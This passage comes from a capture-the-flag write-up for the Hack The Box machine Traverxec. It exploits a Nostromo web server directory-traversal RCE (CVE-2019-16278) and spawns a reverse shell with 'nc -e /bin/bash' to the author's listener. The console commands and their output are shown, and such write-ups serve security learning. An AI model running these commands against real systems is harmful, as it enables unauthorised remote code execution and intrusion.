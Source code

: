 Well, we have a really close version and a Metasploit module. I am going to enumerate via google a little more. [Packetstorm](https://packetstormsecurity.com/files/155045/Nostromo-1.9.6-Directory-Traversal-Remote-Command-Execution.html) has an interesting directory traversal / RCE that seems to match that metasploit module. Most likely someone wrote a non-msf version that we can find.

Sure enough - [sp0re](https://sp0re.sh/) has a [small script](https://git.sp0re.sh/sp0re/Nhttpd-exploits/src/branch/master/CVE-2019-16278.sh) that looks like it exploits this vulnerability. 

Looks rather simple, I should have tried to write my own thing to do this. There is a very good article explaining how this works by [Sudoka](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html). If I were to paraphrase how it works to my fiance, I would say that this exploit builds upon a previous one where you could explore the file system on the target through sending it a tricky command saying go look for this thing in the previous directory, and then repeating that until you got to the folder you wanted. 

The way Nostromo fixed this was by looking for the command used to change folders and then sanitizing it. However we can encode the command to look like something else but the computer still registers it as our original command. 

```console
root@kali:~/htb/traverxec# ./16278.sh 10.10.10.165 80 id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
root@kali:~/htb/traverxec# ./16278.sh 10.10.10.165 80 pwd
/usr/bin
```
So far so good. We can send commands and get results back. I am going to see if I can get a shell going. First start up my listener:

```console
root@kali:~# nc -lvnp 42069
listening on [any] 42069 ...
```
and then see if we can throw a shell back to it:

```console
root@kali:~/htb/traverxec# ./16278.sh 10.10.10.165 80 'nc -e /bin/bash 10.10.14.75 42069'
````

and voila:

```console
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.165] 40998
whoami
www-data
pwd
/usr/bin
```
a rather less-than-ideal shell. I'll take what I can get though.

# Exploitation  

## User Flag

So this is a linux machine, I am going to run my favorite [LinEnum](https://github.com/rebootuser/LinEnum) and see if there is anything low hanging that I can knock off real fast. For the sake of the length of this, I am only going to show results that end up being relevent:
